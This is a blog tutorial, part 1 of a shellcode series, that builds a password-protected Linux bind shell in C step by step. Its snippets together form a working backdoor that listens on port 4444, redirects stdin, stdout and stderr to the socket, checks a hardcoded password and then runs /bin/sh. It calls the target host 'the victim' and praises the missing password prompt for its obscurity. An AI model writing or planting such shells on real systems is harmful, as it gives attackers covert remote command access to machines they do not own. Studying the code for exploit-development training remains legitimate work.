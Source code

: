 ```yaml
---
title: "Implementing a password protected bind shell in Linux 64-bit Assembly shellcode - Part 1"
categories:
  - blog
---
```


The goal of the following blog post is to write shellcode for the Linux 64-bit architecture that will ultimately spawn a bind shell and require a password for connecting to it.

<h4>To accomplish this goal, we will break this process into 3 parts:</h4>

<ol>
    <li>Firstly, we need to write the code, in the C Programming Language, for creating a socket and password protecting it.</li>
    <li>Secondly, the C code needs to be ported to x86_64 Assembly code.</li>
    <li>Lastly, all Null bytes need to be removed from the Assembly code and we need to look for opportunities to optimize our shellcode to keep the final payload as small as possible.</li>
</ol>

<h4>This blog post will consist of two parts:</h4>

<ul>
    <li>Part 1 - Writing a password protected bind shell in the C Programming Language</li>
    <li>Part 2 - Porting the C code to Linux 64-bit Assembly code and optimizing the code for use as shellcode</li>
</ul>

<h2>PART 1 - Writing a password protected bind shell for Linux in C</h2>
 
In this section, I will take you through a step-by-step process of coding a bind shell and will try my best to clarify it as best I can. Before we begin with this process though, let's make sure everybody knows what we are ultimately trying achieve.

<h3>What is a Bind Shell?</h3>

A Bind Shell is created when a socket is created on the host and is then bound to a specific port. A Bash shell is then bound to this specific socket. This means that anybody connecting to the listener will be presented with a bash shell upon successful connection. The security implication here is that anybody can connect to the running listener, so if we can password protect the bind shells that we spawn then we can prevent arbitrary connections to it and provides us with more control.

<h3>Creating the Bind Shell</h3>

In the process of creating a bind shell, we will be stepping through 7 stages:

<ol>
<li>Creating a new socket</li>
<li>Binding the newly created socket to a port</li>
<li>Listen for incoming connections on the newly created socket</li>
<li>Wait for incoming connections on the newly created socket</li>
<li>Map STDIN/STDOUT and STDERROR to the new socket for remote shell capabilities.</li>
<li>Wait for input (password) to be received and compare it against the correct password string</li>
<li>Spawn the shell, if password is correct</li>
</ol>

So let's get started in coding out the 7 stages.

<h3><b>Stage 1 - Creating a new socket</b></h3>

The skeleton code that we will be departing on this journey from can be seen below. This is essentially just declaring some variables, to be used later, as well as importing the necessary libraries we will be using in the code.

```c++
#include<stdlib.h>
#include<string.h>
#include<strings.h>
#include<unistd.h>
#include<arpa/inet.h>

int main()
{
        struct sockaddr_in server;
        struct sockaddr_in client;
        int sock;
        int new_sock;
        int sockaddr_len = sizeof(struct sockaddr_in);
        // Change arguments as required - last argument is password
        char *arguments[] = { "/bin/sh", 0, "4444", "YOLOOOOOOO" };
        char buf[16];
}
```

Creating the socket is handled by the socket syscall. Syscall stands for System Call and is used to make requests from the user space into the Linux Kernel. 

Referring to the man page for [socket](https://man7.org/linux/man-pages/man2/socket.2.html), it requires 3 arguments:

<ul>
    <li>Protocol Family - We will be using AF_INET (IPv4 Internet Protocols)</li>
    <li>Communication Type - We will use SOCK_STREAM (TCP)</li>
    <li>The third argument does not concern us so we will only pass 0</li>
</ul>

```c++
sock = socket(AF_INET, SOCK_STREAM, 0);
```

The return value for the above syscall will be a file descriptor for the new socket.

<h3><strong>Stage 2 - Binding the newly created socket to a port</strong></h3>

In this step we will assign an address to the newly created socket. We will use the bind syscall for this. The bind syscall again takes 3 arguments:

<ul>
    <li>The socket to bind to - We will use our new socket "sock"</li>
    <li>Data structure of the server/victim, which is essentially the IP Address and port that the bind syscall needs to use. This data structure consists of 4 members that are each explained below.</li>
    <li>Length of the data structure passed in argument 2. This was declared during the skeleton code stage.</li>
</ul>

```c++
server.sin_family = AF_INET; //Address Family
server.sin_port = htons(atoi(arguments[2])); //Network Byte order of the port to bind to. 
                                     //htons converts host byte order to network byte order
server.sin_addr.s_addr = INADDR_ANY; //Netowrk interfaces to bind to, INADDR_ANY = All interfaces
bzero(&server.sin_zero, 8); // 8 zero bytes of padding

bind(sock, (struct sockaddr *)&server, sockaddr_len);
```

<h3>Stage 3 - Listen for incoming connections on the newly created socket</h3>

The listen syscall accepts 2 arguments:

<ul>
<li>File descriptor of new socket in Stage 1</li>
<li>Backlog - Maximum number of pending connections in the queue</li>
</ul>

```c++
listen(sock, 2);
```

<h3>Stage 4 - Wait for incoming connections on the newly created socket</h3>

For this stage we will wait for connections on our newly created socket, using the [accept](https://man7.org/linux/man-pages/man2/accept.2.html) syscall, and as soon as a connection is initiated, we will create new socket with the network information of the incoming connection and store it in a new variable. After the new socket is created, we will tear down or close the original socket.

The accept syscall takes 3 arguments:

<ul>
<li>The socket we are listening on</li>
<li>Pointer to a sockaddr data structure - as discussed in stage 2. the difference with this step is that the accept syscall will populate the 4 members of the data structure for us based on the incoming connection. </li>
<li>Pointer to the size of the sockaddr structure in point above. This was already declared in the variables at the start of the code.</li>
</ul>

```c++
new_sock = accept(sock, (struct sockaddr *)&client, &sockaddr_len);
close(sock);
```

The return value of the accept syscall is a new file descriptor pointing to the newly created socket.

<h3>Stage 5 - Map STDIN/STDOUT and STDERROR to the new socket for remote shell capabilities</h3>

For this stage we will be duplicating the file descriptor of our newly created socket and provide it with the basic shell capabilities and we will be using the dup2 syscall for this purpose. We need to provide the file descriptor of our newly created socket and the integer assigned to STDIN (0), STDOUT (1) and STDERROR(2) to dup2.

```c++
dup2(new_sock, 0);
dup2(new_sock, 1);
dup2(new_sock, 2);
```

<h3>Stage 6 - Wait for input (password) to be received and compare it against the correct password string</h3>

Now that we have remote shell capabilities on our socket, lets wait for input (password) from the connection and compare it to the password that we have in memory. We will wait for and read input with the read syscall.

The read syscall accept 3 arguments:

<ul>
<li>File descriptor of our newly created socket</li>
<li>Buffer - was assigned at the variables section of the code</li>
<li>Number of bytes to read from the file descriptor into the buffer</li>
</ul>

We will then use the strcspn syscall to calculate the number of bytes in the buffer and and using strcmp syscall to compare the string in the buffer with our hardcoded password in memory. If the two strings match, the strcmp syscall will return a 0, and our program will continue. If the two strings don't match, our program/shell will exit.

```c++
read(new_sock, buf, 16);
buf[strcspn(buf, "\n")] = 0;
if (strcmp(arguments[3], buf) == 0)
{
        execve(arguments[0], &arguments[0], NULL);
}
```

<h3>Stage 7 - Spawn the shell, if password is correct</h3>

So, if we have provided the correct password our program/shell will continue and actually spawn our shell, using the execve syscall, as specified in the variables section.

The execve syscall executes a program using:

<ul>
<li>Pathname of the executable or script to run</li>
<li>A pointer to the filename/executable and arguments passed to the executable. We do not have any arguments in this case, so just the pointer to our executable</li>
<li>Environmental variables for use by the program - We set this to NULL as we are not concerned with this</li>
</ul>

```c++
execve(arguments[0], &arguments[0], NULL);
```

Hopefully, if we have done everything right, we will be presented with our remote shell capabilities on the victim. Personally, I prefer the fact that there is no prompt for a password as it adds an element of obscurity for somebody connecting to the shell without spawning it themselves.

The code for the password protected bind shell can be found [here](https://github.com/J33R4FF3/Pass_Bind_Shell).

I hope I explained everything in enough detail for it to make a bit more sense to you as this is also an attempt at understanding the inner workings of bind and reverse shells better.

In PART 2 we will be discussing how to port all of the above to Linux x86_64 Assembly code so that we can use the shellcode when the situation presents itself. 
